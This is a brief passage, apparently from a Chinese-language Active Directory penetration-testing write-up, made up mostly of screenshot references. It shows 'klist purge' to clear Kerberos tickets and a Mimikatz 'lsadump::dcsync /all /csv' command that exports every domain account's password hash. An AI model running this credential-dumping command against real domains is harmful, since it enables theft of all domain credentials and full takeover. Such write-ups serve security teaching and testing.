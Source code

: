 ![](images/42.jpg)

无奈在cmd清空票证：

	klist purge

![](images/43.jpg)

2.```lsadump::dcsync /domain:lmrsec.com /all /csv``` 导出的hash:

![](images/44.png)

